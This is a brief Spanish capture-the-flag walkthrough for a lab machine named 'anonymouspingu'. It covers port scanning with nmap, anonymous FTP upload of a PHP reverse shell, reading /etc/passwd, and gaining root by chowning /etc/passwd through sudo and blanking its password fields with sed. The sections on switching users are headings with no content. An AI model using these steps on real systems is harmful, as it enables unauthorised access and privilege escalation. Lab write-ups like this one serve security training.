

### Maquina anonymouspingu

## Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

21/tcp open  ftp     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

## Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p21,80 -vvv -Pn 172.17.0.2

## Intrusion

entramos por ftp

ftp 172.17.0.2 -> usuario: anonymous

encontramos una carpeta upload que tambien se puede visualizar por la web

en http://172.17.0.2/upload

Entonces subimos una rev en php para conectarnos a la maquina, nos ponemos en escucha por el puerto 443 con nc

viendo los usuarios en el S.O

cat /etc/passwd | grep bash

root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
pingu:x:1001:1001::/home/pingu:/bin/bash
gladys:x:1002:1002::/home/gladys:/bin/bash

## cambiando al usuario pingu

## cambiando al usuario gladys

## Escalando privilegios

sudo /usr/bin/chown gladys:gladys /etc/passwd

ls -l /etc/passwd -> para ver si cambiamos de propietario en el etc

luego hacemos

sed 's/x//g' /etc/passwd

sed -i 's/x//g' /etc/passwd

luego su root y sin escribir contraseña somos root

